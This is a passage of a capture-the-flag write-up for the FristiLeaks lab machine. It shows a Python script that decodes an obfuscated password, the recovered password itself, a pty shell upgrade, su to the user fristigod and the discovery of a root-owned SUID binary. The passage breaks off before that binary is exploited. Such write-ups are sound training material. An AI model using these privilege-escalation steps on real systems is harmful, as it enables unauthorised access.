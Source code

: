 The above script was modified on the attacking machine to decode the string:

{% highlight python %}

#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

def decodeString(str):
    string = str[::-1]
    string = string.encode("rot13")
    return base64.b64decode(string)

print decodeString(sys.argv[1])

{% endhighlight %}

String successfully decoded:

{% highlight bash %}

[root:~]# python reverse.py "=RFn0AKnlMHMPIzpyuTI0ITG"
LetThereBeFristi!

{% endhighlight %}

Using the previously decoded string it was possible to <code>su -</code> to the user **fristigod**.

{% highlight bash %}
sh-4.1$ python -c 'import pty;pty.spawn("/bin/sh")'
python -c 'import pty;pty.spawn("/bin/sh")'
sh-4.1$ su - fristigod
su - fristigod
Password: LetThereBeFristi!

-bash-4.1$ id
id
uid=502(fristigod) gid=502(fristigod) groups=502(fristigod)
{% endhighlight %}


Enumeration as the user **fristigod** revealed the SUID binary: <code>/var/fristigod/.secret_admin_stuff/doCom</code>.

{% highlight bash %}

-bash-4.1$ ls -la /var/fristigod
ls -la /var/fristigod
total 16
drwxr-x---   3 fristigod fristigod 4096 Nov 25 05:55 .
drwxr-xr-x. 19 root      root      4096 Nov 19 01:41 ..
-rw-------   1 fristigod fristigod  864 Nov 25 06:09 .bash_history
drwxrwxr-x.  2 fristigod fristigod 4096 Nov 25 05:53 .secret_admin_stuff
-bash-4.1$ cd .se
cd .secret_admin_stuff/
-bash-4.1$ ls
ls
doCom
-bash-4.1$ ls -la
ls -la
total 16
drwxrwxr-x. 2 fristigod fristigod 4096 Nov 25 05:53 .
drwxr-x---  3 fristigod fristigod 4096 Nov 25 05:55 ..
-rwsr-sr-x  1 root      root      7529 Nov 25 05:53 doCom
-bash-4.1$ ./d
./doCom
Nice try, but wrong user ;)

{% endhighlight %}